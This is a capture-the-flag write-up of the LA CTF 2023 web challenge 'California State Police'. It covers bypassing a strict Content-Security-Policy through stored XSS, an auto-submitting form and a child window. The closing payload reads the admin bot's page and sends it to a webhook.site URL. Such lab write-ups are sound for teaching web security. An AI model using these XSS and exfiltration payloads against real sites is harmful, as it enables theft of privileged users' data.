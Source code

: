 # California State Police

# This was a web challenge from LA CTF 2023.

![image-20230212190902297](./assets/image-20230212190902297.png)



## Analysis

We are provided with the source for `index.js`:

```javascript
const express = require("express");
const path = require("path");
const { v4: uuid } = require("uuid");
const cookieParser = require("cookie-parser");

const flag = process.env.FLAG;
const port = parseInt(process.env.PORT) || 8080;
const adminpw = process.env.ADMINPW || "placeholder";

const app = express();

const reports = new Map();

let cleanup = [];

setInterval(() => {
    const now = Date.now();
    let i = cleanup.findIndex(x => now < x[1]);
    if (i === -1) {
        i = cleanup.length;
    }
    for (let j = 0; j < i; j ++) {
        reports.delete(cleanup[j][0]);
    }
    cleanup = cleanup.slice(i);
}, 1000 * 60);

app.use(cookieParser());
app.use(express.urlencoded({ extended: false }));

app.get("/flag", (req, res) => {
    res.status(400).send("you have to POST the flag this time >:)");
});

app.post("/flag", (req, res) => {
    if (req.cookies.adminpw === adminpw) {
        res.send(flag);
    } else {
        res.status(400).send("no hacking allowed");
    }
});

app.use((req, res, next) => {
    res.set(
        "Content-Security-Policy",
        "default-src 'none'; script-src 'unsafe-inline'"
    );
    next();
});

app.post("/report", (req, res) => {
    res.type("text/plain");
    const crime = req.body.crime;
    if (typeof crime !== "string") {
        res.status(400).send("no crime provided");
        return;
    }
    if (crime.length > 2048) {
        res.status(400).send("our servers aren't good enough to handle that");
        return;
    }
    const id = uuid();
    reports.set(id, crime);
    cleanup.push([id, Date.now() + 1000 * 60 * 60 * 3]);
    res.redirect("/report/" + id);
});

app.get("/report/:id", (req, res) => {
    if (reports.has(req.params.id)) {
        res.type("text/html").send(reports.get(req.params.id));
    } else {
        res.type("text/plain").status(400).send("report doesn't exist");
    }
});

app.get("/", (req, res) => {
    res.sendFile(path.join(__dirname, "index.html"));
});

app.listen(port, () => {
    console.log(`Listening on port ${port}`);
});
```

By studying this source, we can see that we have to submit a URL to the admin bot and, somehow, get it to POST to `/flag`, read the response (the flag) and exfiltrate it.

Visiting the challenge page shows:

![image-20230212191541408](./assets/image-20230212191541408.png)

You can type anything you want and click the button.  The server will store your post associated with new UUID and redirect you to a URL like this that will return exactly what you posted:

https://california-state-police.lac.tf/report/c354c6ab-fcef-4020-92ce-4a19982ad88e

Clearly we have XSS.  Normally, it would be trivial to post a script that would use `fetch()` to POST to `/flag` read the response and exfiltrate it.  However, we have this Content-Security-Policy (CSP):

```
default-src 'none'; script-src 'unsafe-inline'
```

If you are new to CSPs, you can read all about it here: 

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy

Key takeaways from this policy are:

- `script-src 'unsafe-inline'` - we are allowed to have inline javascript like `<script>alert(0)</script>` 
- `default-src 'none'` - **every other** `*-src` policies default to `none` . A few relevant examples:
  - `frame-src` - we cannot use `<frame>` or `<iframe>`
  - `connect-src` - we cannot connect to anything using functions like `fetch()` 



## Obstacle 1

We know we need to get the admin bot to do a POST to `/flag`.  Let's try to tackle that first.

Without the CSP, we would use `fetch()` to do the POST and read the response.  But that is out.

How else can we do it?

Well, we know that the site **does** support POSTing via form because it lets us POST our payload.  Let's craft a payload that has an html form that will POST to `/flag` along with a small script to click the submit button.

```html
<form method="POST" action="/flag">
    <input id="frog" type="submit" value="what?">
</form>
<script>frog.click()</script>
```



When we post the above content, it works!  The form renders, the script clicks the button, the browser POSTs to `/flag` and it returns `no hacking allowed` (because we don't have the admin bot's cookie).

If we were to submit the URL for this payload to the admin bot, it would do the above and the flag would end up showing in the browser window.

Of course, this doesn't help us since we have no way to exfiltrate it.  Still, it is progress.

If we were allowed to use an `<iframe>` then we could put the above in an iframe, the flag would appear there, and a script in the parent page could read it. Of course, the CSP prevents this.

After a while, we thought of the idea of opening a child windows instead of using an iframe.

The idea is that we would post the above and save the URL for it.

Then we'd craft a new payload that would open that URL in a child window.  Something like this:

```html
<script>
    let win=window.open('https://california-state-police.lac.tf/report/ff130ed3-776b-440d-b60f-5fd8bf62b89e')
    setTimeout(() => {
        let data = win.document.documentElement.innerHTML
        console.log(data)
    }, 500)
</script>
```

This script opens the previous payload in a child window.  We already know the flag will appear there. The script then waits a bit (for the flag to appear), reads the content of the child window, and logs it to the console.

When we tried this in **our** browser the very first time, chrome blocked the child window from appearing due to the popup blocker policy.  We disabled that policy on this site. We'll just have to "hope" that the policy is disabled in the admin bot's browser.

After allowing popups, we retried.  The child window appeared in a new tab, the flag appeared inside it, and the html content was logged to our original window.

At this point, if we submitted this to the admin bot, the flag would get logged to its browser console.

## Obstacle 2

Normally, we use `fetch()` for exfiltration, but the CSP will not allow this.  Fortunately, this is a really easy obstacle to bypass.

Instead of using `fetch()` we can set `location.href=<some-url>` and the browser will "go visit" that new URL. This does not violate the CSP.

## Getting the Flag

Putting our two pieces together, we get this payload:

```html
<script>
    let win=window.open('https://california-state-police.lac.tf/report/ff130ed3-776b-440d-b60f-5fd8bf62b89e')
    setTimeout(() => {
        let data = win.document.documentElement.innerHTML
        window.location.href='https://webhook.site/d14effde-ca5f-43af-b2cb-727fddbbc870?data='+data
    }, 500)
</script>
```

When we post this ourselves, we see the `no hacking allowed` (along with some html) in our exfiltration site.

We can now submit this URL to the admin bot.

Indeed, the flag appears on our exfiltration site:

```
	<head></head><body>lactf{m4yb3_g1v1ng_fr33_xss_1s_jus7_4_b4d_1d3a}</body>
```

 Thanks to LA CTF for a great web challenge.



